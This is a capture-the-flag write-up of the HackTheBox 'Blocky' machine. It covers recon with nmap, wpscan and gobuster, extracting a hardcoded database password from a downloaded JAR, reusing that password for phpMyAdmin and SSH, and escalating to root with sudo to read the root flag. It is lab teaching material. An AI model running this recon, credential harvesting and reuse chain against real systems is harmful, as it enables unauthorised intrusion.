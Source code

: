 # Blocky


## Recon

### Service Discovery
Begin, as usual, with an `nmap` scan:

```
$ nmap -sV -sC -T4 -oN nmap_scan.txt 10.10.10.37
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The target is a Unix box that is running FTP, SSH, and HTTP. Since the site is
built on WordPress, let's run `wpscan` to enumerate users and vulnerable
plugins:

```
$ wpscan --url http://10.10.10.37 --enumerate u, vp -o wpscan.log

...REDACTED...

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...REDACTED...
```

I redacted some of the scan info, but we can see that there is a Notch user.
Let's use `gobuster` to find a hidden admin login panel:

```
$ gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee gobuster.txt

/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/
```

Looks like we can login to either /wp-admin or /phpmyadmin. At this point, we
can try to brute force the credentials with a tool like `hydra`. However, I
wanted to continue looking around the website for any other key info.


### Information Discovery

In the /plugins folder are two JAR (**J**ava **A**rchive) files. Download and
extract them.

```
$ wget http://10.10.10.37/plugins/files/BlockyCore.jar 
$ wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
$ jar -xf BlockyCore.jar
$ jar -xf griefprevention*.jar
```

Both files are now extracted. I was able to find something interesting by
running `strings` on com/myfirstplugin/BlockyCore.class:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                                                                                                                                     
java/lang/Object                                                                                                                                                                                                 
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

## Initial Foothold (rabbit-hole)

We see the username `root` and password `8YsqfCTnvxAUeduzjNSXe22`! I used these
credentials to log into the /phpmyadmin page, but not the /wp-login page.

In the phpmyadmin panel I found the below user information:

![wp_users](./screenshots/wp_users.png)

There's the password hash for the Notch user! This hash could not be cracked
with crackstation, so I googled "$P$ hash" and found [this StackOverflow
post](https://stackoverflow.com/questions/1045988/what-type-of-hash-does-wordpress-use).

It states that this has uses the [portable PHP password hashing
framework](https://www.openwall.com/phpass/).

I figured if I could login to the wp-login page, I could upload a PHP reverse
shell and compromise the machine. I went down a rabbit hole trying to crack
Notch's password with a python script I pulled from GitHub. 

This did not work. Next, I tried changing Notch's password in the phpmyadmin
panel:

![edit password](./screenshots/edit.png)

## Initial Foothold (success)

Even after this edit I could not log into the WordPress page! So I gave up on
the web server and tried FTP and SSH. I was able to log into both with the
credentials **notch:8YsqfCTnvxAUeduzjNSXe22**!

In either the FTP or SSH server, the user flag is found in the `user.txt` file.

## Privilege Escalation

Now we need to find the root flag. One privilege escalation technique that I
always start with it `sudo -l` to list what, if any, commands the current user
can run as root.

```
$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

The "(ALL : ALL) ALL" means we can run all commands as root! So we can easily
`cat` out the root flag:

```
$ sudo cat /root/root.txt
```

## Conclusion

I went down a rabbit hole with trying to crack Notch's WordPress password. Even
though I was unsuccessful, I learn a couple things from it:
- WordPress replaced md5 hashes with portable PHP hashes
- [There is a GitHub repo for cracking php hashes](https://github.com/micahflee/phpass_crack)
